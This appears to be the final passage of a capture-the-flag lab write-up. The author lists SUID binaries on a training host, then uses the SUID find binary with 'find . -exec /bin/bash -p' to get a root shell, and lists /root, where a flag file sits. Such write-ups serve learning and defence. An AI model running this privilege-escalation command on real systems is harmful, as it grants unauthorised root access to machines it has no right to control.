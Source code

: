 ```bash
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/nano
/usr/bin/su
/usr/bin/fusermount
/usr/bin/find
/usr/bin/at
/usr/bin/mount
zeamkish@ip-10-10-230-123:~$ 
```
{: .nolineno}
{: .nolineno}
while checking SUIDs I got 2,3 programs that can escalate me to root so I will be using `find` command to get the root ->
```bash
zeamkish@ip-10-10-230-123:~$ find . -exec /bin/bash -p \; find . -exec /bin/bash -p \; -quit
find . -exec /bin/bash -p \; -quit
bash-5.0# whoami
whoami
root
bash-5.0# id
id
uid=1001(zeamkish) gid=1001(zeamkish) euid=0(root) groups=1001(zeamkish)
bash-5.0# cd /root
cd /root
bash-5.0# ls -al
ls -al
total 40
drwx------  5 root root 4096 Jun 11  2023 .
drwxr-xr-x 20 root root 4096 Feb 21 06:06 ..
-rw-------  1 root root  330 Jun 30  2023 .bash_history
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Jun  2  2023 .local
-rw-------  1 root root   13 May 25  2023 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 May 25  2023 .ssh
-rw-r--r--  1 root root   23 Jun 11  2023 flag.txt
drwxr-xr-x  4 root root 4096 May 25  2023 snap
bash-5.0# 
```
{: .nolineno}
{: .nolineno}
I checked the ID and this user <span style="color:#ffff00">zeamkish</span> got effective user ID to root and now this user can act as root user .

I am root now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }